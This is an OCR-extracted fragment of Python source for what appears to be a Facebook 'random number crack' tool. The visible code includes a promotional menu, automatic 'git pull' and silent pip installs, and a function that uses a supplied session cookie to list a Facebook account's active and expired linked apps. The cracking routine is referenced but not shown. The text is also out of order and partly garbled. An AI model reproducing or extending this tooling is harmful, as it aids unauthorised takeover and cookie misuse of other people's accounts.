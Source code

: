 
def o():
    os.system('clear')
    jalan(logo)
    jalan('\33[37;41m\t RANDOM NUMBER CRACK\33[0;m')
    print('')
    jalan('\x1b[1;32m [1]\x1b[1;33m RANDOM CRACK ')
    jalan('\x1b[1;32m [2] \x1b[1;32mCONTACT ME ON FACEBOOK')
    jalan(' \x1b[1;32m[3] \x1b[1;32mSUBSCRIBE MY CHANNEL')
    jalan(' \x1b[1;32m[4] \x1b[1;32mFOLLOW FACEBOOK PAGE')
    jalan(' \x1b[1;32m[00] \x1b[1;31mEXIT')
    opt = input('\n   \x1b[1;32m CHOOSE OPTION >>> ')
    if opt == '1':
        i()
    if opt == '2':
        os.system('xdg-open https://www.facebook.com/profile.php?id=100078661073975&mibextid=ZbWKwL')
        return None
    if opt == '3':
        os.system('xdg-open https://youtube.com/@sifatmohammad126gmail')
        return None
    if opt == '4':
        os.system('xdg-open https://www.facebook.com/profile.php?id=100084148869503&mibextid=ZbWKwL')
        
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')

def cek_apk(session,coki):
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â˜† Your Active Apps â˜†     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â—‡ Your Expired Apps â—‡    :{WHITE}'%(M))
        for i in range(len(game)):